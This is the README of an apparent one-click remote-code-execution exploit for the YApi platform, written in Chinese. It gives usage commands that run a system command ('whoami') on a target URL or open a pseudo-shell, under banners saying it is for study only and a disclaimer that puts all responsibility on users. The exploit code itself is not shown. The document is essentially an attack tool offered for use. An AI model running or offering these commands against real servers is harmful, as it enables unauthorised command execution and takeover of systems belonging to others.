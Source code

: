 <h1>学习交流<br>切勿非法使用</h1>
# yapi_exp
yapi漏洞一键利用脚本

命令执行：
python try777_yapi_rce.py -t http://demo.com -c whoami

伪shell：
python try777_yapi_rce.py -t http://demo.com -c shell


<h1>免责申明</h1>
<b>此内容中所涉及漏洞细节均为互联网公开内容。本项目仅用于学习交流，任何人利用本项目非法入侵计算机系统或违反网络安全法所造成的后果均与本人无关，由使用者自行承担</b>
